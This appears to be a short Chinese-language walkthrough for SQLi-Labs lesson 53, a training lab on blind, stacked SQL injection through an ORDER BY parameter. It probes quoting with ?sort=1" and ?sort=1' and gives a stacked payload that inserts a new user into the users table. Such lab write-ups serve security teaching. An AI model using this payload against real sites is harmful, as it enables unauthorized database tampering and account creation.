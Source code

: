 # GET -Blind based -ORDER BY CLAUSE -String -Stacked injection  
TAG：GET型注入、堆叠注入、ORDER BY参数可控、盲注  
## 漏洞利用  
![less53_1](images\less53_1.png)  
![less53_1](images\less53_2.png)  
  
当?sort=1"时正常回显  
![less53_1](images\less53_3.png)  
  
当?sort=1'无回显  
![less53_1](images\less53_4.png)  
  
可以推测参数被单引号包裹  
此less也可以使用堆叠注入添加新用户  
payload:```?sort=1';insert into users(id,username,password) values ('28','less53','hello')--+```
![less53_1](images\less53_5.png)  
用户添加成功    
